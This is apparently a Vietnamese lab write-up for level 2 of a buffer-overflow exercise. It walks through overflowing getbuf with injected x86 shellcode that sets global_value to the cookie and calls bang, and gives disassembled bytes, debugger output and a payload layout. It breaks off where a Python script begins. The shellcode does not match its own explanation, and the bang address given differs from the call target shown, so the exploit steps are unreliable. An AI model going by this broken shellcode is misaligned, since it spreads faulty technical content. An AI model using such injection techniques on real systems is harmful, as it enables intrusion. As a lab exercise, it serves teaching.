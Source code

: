 # Level 2
## Task
Buffer overflow hàm `getbuf` để thực thi được hàm `bang` với `global_value == cookie`.  
```c
void __noreturn bang()
{
  if ( global_value == cookie )
  {
    printf("Bang!: You set global_value to 0x%x\n", global_value);
    validate(2);
  }
  else
  {
    printf("Misfire: global_value = 0x%x\n", global_value);
  }
  exit(0);
}
```

## Solution
Tương tự như các level trước, chúng ta vẫn sẽ overflow buffer có độ dài `40` bytes. Nhưng ở level này, chúng ta cần inject shellcode để có thể set giá trị của `global_value` bằng với giá trị `cookie`.  

Trước tiên, để gán được giá trị mới cho `global_value`, chúng ta cần biết được địa chỉ của `global_value`. Trong IDA Pro, chúng ta có thể xem được địa chỉ của biến `global_value`.  
```
.bss:8013F160 global_value    dd ?
```  

Và cả địa chỉ của biến `cookie`.  
```
.bss:8013F158 cookie          dd ?
```  

Vậy shellcode của chúng ta như sau:  
```asm
movl 0x8013F158, %eax
movl %eax, (%eax)
movl %eax, (0x8013F160)
call 0x80139B69
```  

Ở shellcode trên, chúng ta gán địa chỉ của biến `cookie` vào thanh ghi `%eax`. Sau đó, chúng ta đọc giá trị `cookie` và gán giá trị đó vào `%eax`. Kế đến, chúng ta gán giá trị `cookie` này vào `global_value`, và cuối cùng là gọi hàm `bang`.  
> `0x80139B69` chính là địa chỉ của hàm `bang`.  

Byte representation của shellcode:  
```
└─$ objdump -d shellcode.o

shellcode.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:   a1 58 f1 13 80          mov    0x8013f158,%eax
   5:   89 00                   mov    %eax,(%eax)
   7:   a3 60 f1 13 80          mov    %eax,0x8013f160
   c:   e8 65 9b 13 80          call   0x80139b76
```

Tiếp theo, chúng ta sẽ tìm địa chỉ để ghi đè vào `return address`.  
Ở đây, vì shellcode sẽ được chèn vào đầu chuỗi nhập nên giá trị mà chúng ta sẽ ghi đè lên `return address` chính là địa chỉ của chuỗi nhập. Trong quá trình debug thì chúng ta tìm được địa chỉ là:  
```
pwndbg> p/x $eax
$1 = 0x55683cf8
```  

Vậy `exploit_payload` của chúng ta sẽ có độ dài là `0x28 + 0x4 + 0x4` với `0x28` bytes sẽ chứa shellcode và các giá trị padding, `0x4` bytes tiếp theo để ghi đè `saved %ebp`, và `0x4` bytes cuối cùng để ghi đè `return address`.  

### Script
```python

